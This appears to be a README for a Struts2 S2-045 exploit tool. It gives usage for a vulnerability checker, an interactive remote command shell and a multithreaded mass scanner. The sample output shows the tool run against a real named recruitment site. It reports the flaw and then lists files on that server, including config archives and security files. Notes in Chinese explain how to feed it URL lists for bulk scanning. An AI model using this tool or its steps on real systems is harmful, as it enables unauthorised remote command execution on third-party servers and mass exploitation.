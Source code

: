 ### USage

python s2_045.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
```

python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
[cmd]>>ls
autodeploy
bin
career2.log
career2.log.2017-02-01
career2.log.2017-02-02
career2.log.2017-02-03
career2.log.2017-02-04
career2.log.2017-02-05
career2.log.2017-02-06
career2.log.2017-02-07
career2.log.2017-02-08
career2.log.2017-02-09
career2.log.2017-02-10
career2.log.2017-02-11
career2.log.2017-02-12
career2.log.2017-02-13
career2.log.2017-02-14
career2.log.2017-02-15
career2.log.2017-02-16
career2.log.2017-02-17
career2.log.2017-02-18
career2.log.2017-02-19
career2.log.2017-02-20
career2.log.2017-02-21
career2.log.2017-02-22
career2.log.2017-02-23
career2.log.2017-02-24
career2.log.2017-02-25
career2.log.2017-02-26
career2.log.2017-02-27
career2.log.2017-02-28
career2.log.2017-03-01
career2.log.2017-03-02
career2.log.2017-03-03
career2.log.2017-03-04
career2.log.2017-03-05
career2.log.2017-03-06
config
config20150826.tar.gz
config20151204.tar.gz
console-ext
edit.lok
fileRealm.properties
init-info
lib
pending
security
servers
shutdown.py
startManagedWebLogic_readme.txt
startWebLogic.sh
tmp

```

python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址(url中含.action/.do的地址)，运行完以后会生成一个result.txt文件存放存在漏洞的url
```

想要采集网站中带.action/.do地址的，请看：[Search_S2_045](https://github.com/tengzhangchao/Struts2_045-Poc/tree/master/Search_S2_045)

